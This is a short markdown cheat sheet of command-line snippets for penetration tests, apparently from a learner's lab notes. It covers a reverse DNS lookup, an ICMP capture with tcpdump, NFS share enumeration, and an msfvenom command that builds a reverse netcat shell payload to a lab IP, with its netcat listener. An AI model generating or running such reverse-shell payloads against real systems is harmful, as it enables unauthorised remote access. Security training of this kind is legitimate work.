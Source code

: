 ```yaml
---
description: Collation of useful general cli commands for penetration tests
---
```


# Cli Commands Collation

## Find PTR Owner - Reversal Look Up

```bash
dig 0.168.192.in-addr.arpa. NS
```

## Listent for Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## Reverse Netcat Shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS Show Mount

```bash
showmount -e 10.10.87.232
```
